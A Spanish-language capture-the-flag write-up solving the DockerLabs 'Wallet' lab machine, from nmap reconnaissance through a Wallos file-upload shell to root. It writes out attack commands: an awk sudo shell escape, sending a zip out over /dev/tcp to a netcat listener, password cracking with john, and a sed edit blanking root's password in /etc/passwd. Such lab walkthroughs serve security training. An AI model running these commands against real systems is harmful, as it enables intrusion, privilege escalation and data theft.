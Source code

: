 Hoy realizamos la maquina **Wallet** de la plataforma [DockerLabs](https://dockerlabs.es)

Autor: [Pylon & El Pingüino de Mario](https://www.youtube.com/@Pylonet)

Dificultad: Medio

![Wallet](/maquina-wallet/img/wallet.png)

# Reconocimiento

Comenzamos con un escaneo de `nmap`:

```css
nmap -sS -sV -sC --open --min-rate 5000 -n -Pn -p- -vvv 172.17.0.2 -oN escaneo.txt
```

```ruby
# Nmap 7.95 scan initiated Sun Dec 15 22:21:33 2024 as: nmap -sS -sV -sC --open --min-rate 5000 -n -Pn -p- -vvv -oN escaneo.txt 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000012s latency).
Scanned at 2024-12-15 22:21:34 -03 for 8s
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.59 ((Debian))
|_http-title: Wallet
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-server-header: Apache/2.4.59 (Debian)
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Dec 15 22:21:42 2024 -- 1 IP address (1 host up) scanned in 8.80 seconds
```

Al parecer nos enfrentamos a una maquina debian con un solo puerto abierto:

• `Puerto 80: Apache httpd 2.4.59`

Sabiendo esto continuamos desde el navegador.

Estando ahí, vemos una web que parece ser una plantilla, pero hay un botón que dice "Get A Quote" el cual si le damos, nos redirige a un dominio, el cual es `panel.wallet.dl`, por lo que continuamos agregándolo al `/etc/hosts`.

```css
172.17.0.2	panel.wallet.dl
```

Una vez estamos en la web de `panel.wallet.dl`, veremos un panel de registro, en el cual nos registramos con cualquier credencial y continuamos. Luego de iniciar sesión, vamos a `about.php`, y veremos que hay una linea que dice lo siguiente:

```css
Wallos v1.11.0
```

# Intrusión

Por lo que luego de buscar, encuentro que se pueden subir archivos a través de una [vulnerabilidad](https://www.exploit-db.com/exploits/51924). Sabiendo esto, nos aprovechamos de ella siguiendo los pasos de la exploit-db. Que en resumen, es ir a "New Subscription", en donde podemos elegir un logo para la suscripción, subimos la shell en php que tengamos, y luego con burpsuite capturamos la peticion. Finalmente la modificamos para que quede como en la página de exploit-db y listo, nuestra shell estará subida. (Principalmente lo que se debe modificar es que el codigo tenga lo siguiente al principio: `GIF89a;`)

# Escalada De Privilegios

### www-data

Estando dentro como www-data, realizamos un tratamiento de la tty, y al ejecutar `sudo -l`, veremos que podemos ejecutar el binario `awk` como el usuario "pylon", por lo que luego de buscar, para escalar simplemente debemos ejecutar el siguiente comando:

```css
sudo -u pylon awk 'BEGIN {system("/bin/bash")}'
```

### Pylon

Si vamos a la home del usuario pylon, veremos que hay un zip con contraseña, por lo que tendremos que pasarlo a nuestra maquina. Como python3 no está instalado, lo haremos usando `/dev/tcp`. Para esto, debemos escuchar en nuestra maquina usando `netcat` de la siguiente manera:

```css
nc -nlvp 2323 > archivo.zip
```

luego, en la maquina victima ejecutar el siguiente comando:

```css
cat secretitotraviesito.zip > /dev/tcp/172.17.0.1/2323
```

una vez lo hagamos, tendremos el zip en el host.

Ahora intentaremos sacar la contraseña usando `zip2john` y `john`, para esto primero sacamos el hash:

```css
zip2john archivo.zip > hash
```

y luego lo rompemos con `john` de la siguiente manera:

```css
john --wordlist=/opt/rockyou.txt hash
```

luego de hacerlo, nos dirá que la contraseña del zip es "`chocolate1`". Lo descomprimimos con `unzip` y al leer la nota que nos deja, vemos lo siguiente:

```css
pinguino:pinguinomaloteh
```

Por lo que ya tenemos credenciales para escalar al usuario `pinguino`.

### Pinguino

Siendo el usuario pinguino, podemos ejecutar `sed` como root, por lo que para escalar simplemente modificamos el `/etc/passwd` eliminando la x de root de la siguiente manera:

```css
sudo sed -i 's/root:x:/root::/g' /etc/passwd
```

luego, ejecutamos `su` y ya seremos root.

## Root

![Root](/maquina-wallet/img/Root.png)

Gracias por leer :)